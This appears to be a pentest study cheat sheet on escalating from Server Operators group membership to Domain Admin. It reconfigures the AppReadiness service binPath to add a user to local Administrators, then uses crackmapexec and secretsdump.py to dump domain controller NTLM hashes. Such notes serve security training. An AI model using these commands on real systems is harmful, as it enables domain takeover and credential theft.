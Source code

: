 ### **Overview**

- Members of _Server Operators_ can:
    - Log on locally to servers (including Domain Controllers)
    - Control local services
    - Possess _SeBackupPrivilege_ and _SeRestorePrivilege_

- Group is highly privileged and allows lateral movement and escalation to _Local Admin_ or _Domain Admin_ status.

---

### **Service-Based Privilege Escalation (AppReadiness Example)**

#### **1. Query Service Configuration**
```cmd
sc qc AppReadiness
```
- Runs as _LocalSystem_
- Executable: `C:\Windows\System32\svchost.exe`

#### **2. Check Service Permissions**
```cmd
PsService.exe security AppReadiness
```
- Confirms _BUILTIN\Server Operators_ have `SERVICE_ALL_ACCESS` → Full control.

#### **3. Validate Admin Group Membership**
```cmd
net localgroup Administrators
```
- Confirms target account not yet a local admin.

---

### **Modify and Trigger the Service**

#### **1. Modify `binPath` to Execute Command**
```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

#### **2. Start the Service**
```cmd
sc start AppReadiness
```
- Fails with `1053` error, but command is executed.

#### **3. Verify Escalation**
```cmd
net localgroup Administrators
```
- Shows `server_adm` added to _Administrators_ group.

---

### **Post-Exploitation**

#### **1. Confirm Access via SMB**
```bash
crackmapexec smb <DC IP> -u server_adm -p '<password>'
```
- Should show access as "Pwn3d!"

#### **2. Dump NTLM Hashes from NTDS.dit**
```bash
secretsdump.py server_adm@<DC IP> -just-dc-user administrator
```
- Retrieves password hashes and Kerberos keys.

